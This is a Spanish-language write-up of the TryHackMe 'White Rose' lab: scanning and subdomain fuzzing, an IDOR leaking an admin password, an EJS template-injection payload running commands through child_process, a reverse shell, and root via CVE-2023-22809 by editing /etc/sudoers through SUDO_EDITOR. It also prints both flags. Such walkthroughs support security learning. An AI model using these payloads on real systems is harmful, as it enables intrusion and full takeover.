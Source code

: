 
**primero empezaremos con la fase de escaneo 

**vamos a utilizar la herramienta ==nmap==  

```
nmap -p- --open -Pn -n -sV --min-rate 5000 -sS <HOST> -oN white -vvv
```

**podemos ver que tenemos los puertos ==22/ssh== ==80/http== 

```
PORT   STATE SERVICE REASON         VERSION
22/tcp open  ssh     syn-ack ttl 63 OpenSSH 7.6p1 Ubuntu 4ubuntu0.7 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    syn-ack ttl 63 nginx 1.14.0 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Read data files from: /usr/share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 23.39 seconds
           Raw packets sent: 74647 (3.284MB) | Rcvd: 73697 (2.948MB)

```

**a el revisar el puerto 80 podemos ver que tiene un Dominio registramos el dominio en ==/etc/hosts== y podemos ver que nos encontramos con una pagina de mantenimiento 

![[white.png]]

**Ahora buscaremos un subdominante ya que con gobuster no encontramos nada en este dominio  utilizare ==FFUF== para enumerar subdominios

```
ffuf -w /usr/share/wordlists/SecLists/Discovery/DNS/subdomains-top1million-  110000.txt -u http://cyprusbank.thm -H "HOST:FUZZ.cyprusbank.thm" -fw 1
```

**y podemos ver que encontramos los dominios 

```
www             
admin              
```

**ahora agregamos los Dominios a el Dominio en ==/etc/hosts==

**bien con el subdominio ==admin==  podemos ver que nos encontramos con la pagina de sesión de el banco![[white2.png]]

**ahora vamos a iniciar sesión con las credenciales que nos da tryhackme de ==Olivia Cortez:olivi8==  una vez dentro a revisar la pagina podemos ver una conversación de usuarios 

![[white3.png]]

**podemos ver que contiene una vulnerabilidad de ==IDOR==  ya que nos permite ver las conversaciones anteriores y a el revisar podemos ver que nos brindan la password de un administrador 
```
user = Gayle Bev | pass = p~]P@5!6;rs558:q
```

**una vez dentro podemos ver que podemos ver el los numeros y a el buscar ya tenemos la primera respuesta 

![[white4.png]]

**bien ahora vamos a buscar una forma de poder conectarnos a la maquina en la parte de cambiar password vamos a interceptarla con burpsuite 

![[white5.png]]

**a el eliminar password me mando un mensaje de error indicandome sobre ==ejs== a el investigar sobre ==SSTI== en ejs podemos encontrar  

```
&settings[view options][outputFunctionName]=x;process.mainModule.require('child_process').execSync('');//
```

**creamos la reverse-shell en este caso use ==busy==  y la codifique en base64 , mandamos la shell con burpsuite 

![[white7.png]]


**y tenemos conexión con la maquina

![[white8.png]]

**para un shell mas interactivo usaremos 

```
python3 -c 'import pty;pty.spawn("/bin/bash")'

export TERM=xterm

stty raw -echo; fg
```

**bien una vez dentro vamos a buscar las flags y empecemos por la primera ==user.txt==

**usaremos el comando ==find== para buscar las flags 

```
find / -name user.txt 2>/dev/null
```

**y nos regresa que se encuentra en la carpeta ==/home/web== 


``THM{4lways_upd4te_uR_d3p3nd3nc!3s}``

**y bien ya tenemos la primera ahora vamos por la segunda flags que se encuentra en ==/root== pero para esta flag necesitamos escalar privilegios 

**a el usar el ``sudo -l`` podemos ver que con sudo nos podemos convertir en root mediante 

```
User web may run the following commands on cyprusbank:
    (root) NOPASSWD: sudoedit /etc/nginx/sites-available/admin.cyprusbank.thm

```

**hagamos un poco de investigación sobre `sudoedit` , 1. vamos a verificar la versión de sudoedit  podemos ver que tenemos la versión  ==1.9.12p11== bueno a buscar si contiene alguna vulnerabilidad registrada bueno encontramos una `CVE-2023-22809` ahora a explotarla a ver, con ==SUDO_EDITOR== agregamos a sudores a sudoedit 

```
export SUDO_EDITOR='nano -- /etc/sudoers'
sudoedit /etc/nginx/sites-available/admin.cyprusbank.thm
```

**luego agregamos el usuario `web` a root 
`
```
web ALL:(ALL:ALL) NOPASSWD: ALL
```

`sudo su` **y listo ya somos root ahora abrimos la flag y ya terminamos la maquina

``THM{4nd_uR_p4ck4g3s}

***con esto culminamos la maquina White Rose
